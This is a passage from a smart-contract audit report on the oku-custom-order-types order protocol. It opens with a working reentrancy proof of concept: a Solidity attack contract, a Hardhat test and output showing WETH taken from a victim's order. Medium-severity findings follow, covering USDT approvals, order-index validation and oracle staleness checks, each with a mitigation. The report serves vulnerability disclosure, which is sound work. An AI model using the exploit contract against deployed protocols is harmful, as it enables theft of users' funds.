    ) external returns (uint96 orderId);

    function fillOrder(
        uint96 pendingOrderIdx,
        uint96 orderId,
        address target,
        bytes calldata txData
    ) external;

    function cancelOrder(uint96 orderId) external;
}

contract MaliciousOracleLessTarget {
    using SafeERC20 for IERC20;

    address public immutable oracleLessContract;
    IERC20 public immutable weth;
    IERC20 public immutable usdc;
    uint96 public secondOrderId;
    
    constructor(address _oracleLess, address _weth, address _usdc) {
        oracleLessContract = _oracleLess;
        weth = IERC20(_weth);
        usdc = IERC20(_usdc);
        weth.safeApprove(_oracleLess, type(uint256).max);
    }

    function setSecondOrderId(uint96 _orderId) external {
        secondOrderId = _orderId;
    }

    
    function createOrder(
        IERC20 tokenIn,
        IERC20 tokenOut,
        uint256 amountIn,
        uint256 minAmountOut,
        address recipient,
        uint16 feeBips,
        bool permit,
        bytes calldata permitPayload
    ) external {
        
        require (
            IOracleLess(oracleLessContract).createOrder(
            tokenIn,
            tokenOut,
            amountIn,
            minAmountOut,
            recipient,
            feeBips,
            permit,
            permitPayload
            ) > 0
        ); 
    }
    
    function fillOrder(
        uint96 pendingOrderIdx,
        uint96 orderId,
        address target,
        bytes calldata txData
    ) external {
        
        IOracleLess(oracleLessContract).fillOrder(
            pendingOrderIdx,
            orderId,
            target,
            txData
        );
    }

    function cancelOrder(uint96 orderId) external {
        IOracleLess(oracleLessContract).cancelOrder(orderId);
    }
    
    // During target.call() in fillOrder(), we:
    // 1. Modify first order to get funds back
    // 2. Transfer those funds to second order
    // 3. Send minimal USDC to pass balance check
    function attack(
        uint96 firstOrderId,
        uint256 amountToSteal,
        uint256 amountToReduce,
        uint256 minReturn
    ) external returns (bool) {
        // Step 0: Pull tokenIn (we have been provided the approval)
        weth.safeTransferFrom(msg.sender, address(this), amountToSteal);

        // Step 1: Modify first order to decrease position, getting back most funds
        (bool modifySuccess1,) = oracleLessContract.call(
            abi.encodeWithSignature(
                "modifyOrder(uint96,address,uint256,uint256,address,bool,bool,bytes)",
                firstOrderId,      // orderId
                usdc,             // _tokenOut unchanged
                amountToReduce,  // amountInDelta
                minReturn,        // _minAmountOut
                address(this),    // _recipient 
                false,           // increasePosition = false to decrease
                false,           // permit
                "0x"             // permitPayload
            )
        );
        require(modifySuccess1, "First modify failed");

        // Step 2: Increase position of second order with stolen funds
        (bool modifySuccess2,) = oracleLessContract.call(
            abi.encodeWithSignature(
                "modifyOrder(uint96,address,uint256,uint256,address,bool,bool,bytes)",
                secondOrderId,    // orderId 
                usdc,            // _tokenOut unchanged
                amountToReduce, // amountInDelta
                minReturn,       // _minAmountOut
                address(this),   // _recipient
                true,           // increasePosition = true to add funds
                false,          // permit
                "0x"            // permitPayload
            )
        );
        require(modifySuccess2, "Second modify failed");

        // Step 3: Send minimal USDC to pass balance check in fillOrder()
        usdc.safeTransfer(msg.sender, 1);

        return true;
    }

    receive() external payable {}
}
```

</details>

<br>
2. Second, add the following test case inside `test/triggerV2/happyPath.ts` and run to see it pass:
<details>
<summary>
View Test Case
</summary>

```diff
diff --git a/oku-custom-order-types/test/triggerV2/happyPath.ts b/oku-custom-order-types/test/triggerV2/happyPath.ts
index caeed34..1181295 100644
--- a/oku-custom-order-types/test/triggerV2/happyPath.ts
+++ b/oku-custom-order-types/test/triggerV2/happyPath.ts
@@ -1085,4 +1085,150 @@ describe("Oracle Less", () => {
 
 })
 
+// Add this test after the existing "Oracle Less" describe block:
+describe("OracleLess Attack via fillOrder and modifyOrder Reentrancy", () => {
+    let attackContract: string
+    let naiveOrderId: bigint
+    let firstOrderId: bigint
+    let secondOrderId: bigint
+    let attackWithWETH: bigint
+
+    before(async () => {
+        attackWithWETH = s.wethAmount / 3n
+        console.log("\nSetting up Oracle Less attack test...")
+        console.log("Attack amount:", ethers.formatEther(attackWithWETH), "WETH")
+        
+        s.OracleLess = await DeployContract(new OracleLess__factory(s.Frank), s.Frank, await s.Master.getAddress(), a.permit2)
+        // Fund victim
+        await stealMoney(s.wethWhale, await s.Oscar.getAddress(), await s.WETH.getAddress(), s.wethAmount / 3n)
+        const oscarBalance = await s.WETH.balanceOf(await s.Oscar.getAddress())
+        console.log("Oscar's WETH balance:", ethers.formatEther(oscarBalance))
+        
+        // Deploy malicious contract
+        const AttackFactory = await ethers.getContractFactory("MaliciousOracleLessTarget")
+        const attack = await AttackFactory.connect(s.Steve).deploy(
+            await s.OracleLess.getAddress(),
+            await s.WETH.getAddress(),
+            await s.USDC.getAddress()
+            )
+            attackContract = await attack.getAddress()
+            console.log("Attack contract deployed at:", attackContract)
+            
+        // Fund attack contract with WETH
+        await stealMoney(s.wethWhale, attackContract, await s.WETH.getAddress(), s.wethAmount - s.wethAmount / 3n)
+        console.log("Attack contract funded with", ethers.formatUnits(await s.WETH.balanceOf(attackContract), 18), "WETH")
+
+        // Fund attack contract with USDC
+        await stealMoney(s.usdcWhale, attackContract, await s.USDC.getAddress(), BigInt(2000000000))
+        const attackContractUSDC = await s.USDC.balanceOf(attackContract)
+        console.log("Attack contract funded with", ethers.formatUnits(attackContractUSDC, 6), "USDC")
+    })
+
+    it("Creates attacker's orders", async () => {
+        // Create first order by naive user
+        console.log("\nCreating first order by naive user...")
+        await s.WETH.connect(s.Oscar).approve(await s.OracleLess.getAddress(), s.wethAmount / 3n)
+        
+        let tx = await s.OracleLess.connect(s.Oscar).createOrder(
+            await s.WETH.getAddress(),
+            await s.USDC.getAddress(),
+            s.wethAmount / 3n,
+            0,
+            await s.Oscar.getAddress(),
+            0,
+            false, 
+            "0x"
+        )
+        
+        await tx.wait()
+        let pendingOrders = await s.OracleLess.getPendingOrders()
+        naiveOrderId = pendingOrders[0].orderId
+        expect(await s.WETH.balanceOf(await s.Oscar.getAddress())).to.be.eq(0)
+
+        // Create first attack order
+        const attack = await ethers.getContractAt("MaliciousOracleLessTarget", attackContract)
+        console.log("\nCreating first attack order...")
+
+        tx = await attack.connect(s.Steve).createOrder(
+            await s.WETH.getAddress(),
+            await s.USDC.getAddress(),
+            attackWithWETH,
+            0,
+            attackContract,
+            0,
+            false, 
+            "0x"
+        )
+        
+        await tx.wait()
+        pendingOrders = await s.OracleLess.getPendingOrders()
+        firstOrderId = pendingOrders[1].orderId
+
+        // Create second order
+        console.log("\nCreating second attack order...")
+        tx = await attack.connect(s.Steve).createOrder(
+            await s.WETH.getAddress(),
+            await s.USDC.getAddress(),
+            attackWithWETH,
+            0,
+            attackContract,
+            0,
+            false, 
+            "0x"
+        )
+
+        await tx.wait()
+        pendingOrders = await s.OracleLess.getPendingOrders()
+        secondOrderId = pendingOrders[2].orderId
+
+        // Configure attack contract
+        await attack.setSecondOrderId(secondOrderId)
+
+        // Verify orders
+        pendingOrders = await s.OracleLess.getPendingOrders()
+        expect(pendingOrders.length).to.be.eq(3, "Three orders should be pending")
+    })
+
+    it("Executes reentrancy attack", async () => {
+        const initWETH = await s.WETH.balanceOf(attackContract)
+        const initUSDC = await s.USDC.balanceOf(attackContract)
+        console.log("\nInitial balances of attackContract:")
+        console.log("WETH:", ethers.formatEther(initWETH))
+        console.log("USDC:", ethers.formatUnits(initUSDC, 6))
+
+        // Generate attack payload
+        const functionSelector = ethers.id("attack(uint96,uint256,uint256,uint256)").slice(0, 10)
+        const encodedParams = ethers.AbiCoder.defaultAbiCoder().encode(
+            ["uint96", "uint256", "uint256", "uint256"],
+            [firstOrderId, attackWithWETH, attackWithWETH - BigInt(1e16), 1n] // leave some WETH behind ... and 1 wei as minReturn
+        ).slice(2)
+        const attackData = functionSelector + encodedParams
+
+        console.log("Executing attack...")
+        const attack = await ethers.getContractAt("MaliciousOracleLessTarget", attackContract)
+        await attack.connect(s.Steve).fillOrder(
+            1,
+            firstOrderId,
+            attackContract,
+            attackData
+        )
+        await attack.connect(s.Steve).cancelOrder(
+            secondOrderId
+        )
+
+        const finalWETH = await s.WETH.balanceOf(attackContract)
+        const finalUSDC = await s.USDC.balanceOf(attackContract)
+        console.log("\nFinal balances:")
+        console.log("WETH:", ethers.formatEther(finalWETH))
+        console.log("USDC:", ethers.formatUnits(finalUSDC, 6))
+
+        expect(finalWETH).to.be.gt(attackWithWETH, "Should have gained WETH")
+        expect(finalUSDC).to.be.eq(initUSDC, "Should have no USDC spend")
+
+        const pendingOrders = await s.OracleLess.getPendingOrders()
+        expect(pendingOrders.length).to.be.eq(1, "Only the naive order should be pending")
+        expect(pendingOrders[0].orderId).to.be.eq(naiveOrderId, "Naive order id")
+    })
+})
+
 

```

</details>

<br>

Output:
```text
  OracleLess Attack via fillOrder and modifyOrder Reentrancy

Setting up Oracle Less attack test...
Attack amount: 0.55 WETH
Oscar's WETH balance: 0.55
Attack contract deployed at: 0xB737dD8FC9B304A3520B3bb609CC7532F1425Ad0
Attack contract funded with 1.1 WETH
Attack contract funded with 2000.0 USDC

Creating first order by naive user...

Creating first attack order...

Creating second attack order...
    ✔ Creates attacker's orders (78ms)

Initial balances of attackContract:
WETH: 0.0
USDC: 2000.0
Executing attack...

Final balances:
WETH: 1.64           <---------------------- started with 1.1 WETH, ended up with 1.64 WETH
USDC: 2000.0
    ✔ Executes reentrancy attack (61ms)
```

## Mitigation
Add the `nonReentrant` modifier to both `OracleLess.sol::fillOrder()` and `OracleLess.sol::modifyOrder()`.

[Back to Top](#summaryTable)

<br>

## **MEDIUM-SEVERITY BUGS**
---

### <a id="m-01"></a>[M-01]
## **performUpkeep() may fail when tokenIn is USDT due to allowance change from non-zero to non-zero value inside `execute()`**
#### https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/Bracket.sol#L539
<br>

## Description & Impact
USDT [does not allow](https://github.com/d-xo/weird-erc20?tab=readme-ov-file#approval-race-protections) changing the allowance from a non-zero value to another non-zero value and reverts if such an attempt is made.
However we see that [execute()](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/Bracket.sol#L539) is called internally by [performUpkeep()](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/Bracket.sol#L108) which makes a call to `safeApprove()`:
```js
  File: contracts/automatedTrigger/Bracket.sol

   526:              function execute(
   527:                  address target,
   528:                  bytes memory txData,
   529:                  uint256 amountIn,    <------ `swapParams.swapTokenIn` from `performUpkeep()` is passed here
   530:                  IERC20 tokenIn,
   531:                  IERC20 tokenOut,
   532:                  uint16 bips
   533:              ) internal returns (uint256 swapAmountOut, uint256 tokenInRefund) {
   534:                  //update accounting
   535:                  uint256 initialTokenIn = tokenIn.balanceOf(address(this));
   536:                  uint256 initialTokenOut = tokenOut.balanceOf(address(this));
   537:          
   538:                  //approve
   539:@--->             tokenIn.safeApprove(target, amountIn);
   540:                  // ........ Rest of the code
```

However OZ's `safeApprove()` would fail if allowance is being changed from a non-zero to non-zero value:
```js
    /**
     * @dev Deprecated. This function has issues similar to the ones found in
     * {IERC20-approve}, and its usage is discouraged.
     *
     * Whenever possible, use {safeIncreaseAllowance} and
     * {safeDecreaseAllowance} instead.
     */
    function safeApprove(IERC20 token, address spender, uint256 value) internal {
        // safeApprove should only be called when setting an initial allowance,
        // or when resetting it to zero. To increase and decrease it, use
        // 'safeIncreaseAllowance' and 'safeDecreaseAllowance'
        require(
            (value == 0) || (token.allowance(address(this), spender) == 0),
            "SafeERC20: approve from non-zero to non-zero allowance"
        );
        _callOptionalReturn(token, abi.encodeWithSelector(token.approve.selector, spender, value));
    }
```

Flow of events:
- `swapTokenIn` is USDT. `performUpkeep()` is called.
- An allowance of `amountIn` is given to `target` inside `execute`
- Not all of the amount was used during swap i.e. `tokenInRefund > 0`. So the allowance remaining would be `tokenInRefund`.
- `performUpkeep()` is called again after some time with same `swapTokenIn` and `target`.
-  `safeApprove()` inside `execute()` fails to set to a new non-zero value and reverts.

Impact: Same user or `target` is not able to execute multiple orders having USDT as token.

## Mitigation 
Either make use of 'safeIncreaseAllowance / safeDecreaseAllowance' as suggested by OZ or:
```diff
  File: contracts/automatedTrigger/Bracket.sol

   526:              function execute(
   527:                  address target,
   528:                  bytes memory txData,
   529:                  uint256 amountIn,
   530:                  IERC20 tokenIn,
   531:                  IERC20 tokenOut,
   532:                  uint16 bips
   533:              ) internal returns (uint256 swapAmountOut, uint256 tokenInRefund) {
   534:                  //update accounting
   535:                  uint256 initialTokenIn = tokenIn.balanceOf(address(this));
   536:                  uint256 initialTokenOut = tokenOut.balanceOf(address(this));
   537:          
   538:                  //approve
+  539:                  tokenIn.safeApprove(target, 0); // set to zero first
   540:                  tokenIn.safeApprove(target, amountIn);
```

[Back to Top](#summaryTable)
---

### <a id="m-02"></a>[M-02]
## **Incorrect validation in performUpkeep() can lead to incorrect order being executed**
#### https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/Bracket.sol#L78-L98
<br>

## Description
The [performUpkeep()](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/Bracket.sol#L78-L98) function in `Bracket.sol` ( _Similar logic exists inside `StopLimit.sol` too._ ) has an incorrect `require` validation:
```js
  File: contracts/automatedTrigger/Bracket.sol

    78:              ///@notice recipient of swap should be this contract,
    79:              ///as we need to account for tokens received.
    80:              ///This contract will then forward the tokens to the user
    81:              /// target refers to some contract where when we send @param performData,
    82:              ///that contract will exchange our tokenIn for tokenOut with at least minAmountReceived
    83:              /// pendingOrderIdx is the index of the pending order we are executing,
    84:              ///this pending order is removed from the array via array mutation
    85:              function performUpkeep(
    86:                  bytes calldata performData
    87:              ) external override nonReentrant {
    88:                  MasterUpkeepData memory data = abi.decode(
    89:                      performData,
    90:                      (MasterUpkeepData)
    91:                  );
    92:@--->             Order memory order = orders[pendingOrderIds[data.pendingOrderIdx]];
    93:          
    94:                  require(
    95:@--->                 order.orderId == pendingOrderIds[data.pendingOrderIdx],
    96:                      "Order Fill Mismatch"
    97:                  );
    98:                     // ........ Rest of the code
```

Instead of comparing with `data.orderId`, the code compares `order.orderId` with `pendingOrderIds[data.pendingOrderIdx]`. This `require` condition _will always pass_ even if an element has been removed from `pendingOrderIds` array and the indices have left-shifted by one position, thus resulting in either a revert or execution of an unintended orderId.

Imagine we have three pending orders:
```text
pendingOrderIds = [101, 102, 103]
                   0    1    2    (array indices)
```
When checkUpkeep() determines order 102 is ready to execute, it returns the index 1 along with order 102's data. But between checkUpkeep() and performUpkeep(), someone else might execute and remove order 101. Now our array looks like:
```text
pendingOrderIds = [102, 103]
                   0    1
```
Due to the incorrect `require` condition, we'd try to execute index 1, which now points to order 103 instead of 102! 

## Impact
- Lost opportunity to book profits or limit one's loss:
    - It's possible in a volatile market that takeProfit price was hit and user wanted to book the profits by calling performUpkeep(). Due to the current issue, their calls fail or fill someone else's order and they have to try again with the new updated index. During this time delay, the price movement could have taken the token price in an adverse direction, making the user lose on the opportunity.
    - Similar scenario is possible in the direction of stopPrice. Instead of being able to book their losses as soon as this price is breached, the delay could cause them to bear higher losses due to adverse price movement during this delay.
- If order 103 is not `inRange`, this will revert causing loss of gas fee for the caller.
- If order 103 is `inRange`, it'll get filled and the caller loses gas money **and** will have to try again to execute their order 102.

## Mitigation 
Make this change in both `Bracket.sol` and `StopLimit.sol`:
```diff
    78:              ///@notice recipient of swap should be this contract,
    79:              ///as we need to account for tokens received.
    80:              ///This contract will then forward the tokens to the user
    81:              /// target refers to some contract where when we send @param performData,
    82:              ///that contract will exchange our tokenIn for tokenOut with at least minAmountReceived
    83:              /// pendingOrderIdx is the index of the pending order we are executing,
    84:              ///this pending order is removed from the array via array mutation
    85:              function performUpkeep(
    86:                  bytes calldata performData
    87:              ) external override nonReentrant {
    88:                  MasterUpkeepData memory data = abi.decode(
    89:                      performData,
    90:                      (MasterUpkeepData)
    91:                  );
    92:                  Order memory order = orders[pendingOrderIds[data.pendingOrderIdx]];
    93:          
    94:                  require(
-   95:                      order.orderId == pendingOrderIds[data.pendingOrderIdx],
+   95:                      order.orderId == data.orderId,
    96:                      "Order Fill Mismatch"
    97:                  );
    98:          
```

[Back to Top](#summaryTable)
---

### <a id="m-03"></a>[M-03]
## **PythOracle::currentValue() will always revert for prices which are not stale**
#### https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/oracle/External/PythOracle.sol#L26-L33
<br>

## Description & Impact
[PythOracle::currentValue()](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/oracle/External/PythOracle.sol#L26-L33) has the comparison operator inside `require` inverted. 
```js
  File: contracts/oracle/External/PythOracle.sol

    26:              function currentValue() external view override returns (uint256) {
    27:                  IPyth.Price memory price = pythOracle.getPriceUnsafe(tokenId);
    28:                  require(
    29:@--->                 price.publishTime < block.timestamp - noOlderThan,
    30:                      "Stale Price"
    31:                  );
    32:                  return uint256(uint64(price.price));
    33:              }
```
As a result of this, only the prices which are stale and older than `block.timestamp - noOlderThan` will be returned by the function and all fresh prices (which one would expect to be the majority of query results) will revert. This renders the function practically useless.

## Mitigation
Change the sign:
```diff
    26:              function currentValue() external view override returns (uint256) {
    27:                  IPyth.Price memory price = pythOracle.getPriceUnsafe(tokenId);
    28:                  require(
-   29:                      price.publishTime < block.timestamp - noOlderThan,
+   29:                      price.publishTime >= block.timestamp - noOlderThan,
    30:                      "Stale Price"
    31:                  );
    32:                  return uint256(uint64(price.price));
    33:              }
```

[Back to Top](#summaryTable)
---

### <a id="m-04"></a>[M-04]
## **Incomplete check for stale data inside OracleRelay::currentValue()**
#### https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/oracle/External/OracleRelay.sol#L18-L22
<br>

## Vulnerability Details
[OracleRelay::currentValue()](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/oracle/External/OracleRelay.sol#L18-L22) makes use of `latestAnswer()` to fetch the price and does not check for staleness.
For example while integrating with chainlink, if there is a problem with chainlink starting a new round and finding consensus on the new value for the oracle (e.g. chainlink nodes abandon the oracle, chain congestion, vulnerability/attacks on the chainlink system) consumers of this contract may continue using outdated stale data (if oracles are unable to submit no new round is started).
Reference: https://consensys.io/diligence/audits/2021/09/fei-protocol-v2-phase-1/#chainlinkoraclewrapper---latestrounddata-might-return-stale-results

## Impact
By design, if a price is stale, the function ought to revert. This is not achieved in completeness and hence putting the protocol & funds at risk.

## Mitigation
Recommended to add the following checks and use `latestRoundData()`:
```js
(uint80 roundId, int256 answer, uint256 startedAt, uint256 updatedAt, uint80 answeredInRound) =
            priceFeed.latestRoundData();
require(answer > 0, "Chainlink price <= 0");
require(updatedAt != 0, "Incomplete round");
require(answeredInRound >= roundId, "Stale price");
```

[Back to Top](#summaryTable)

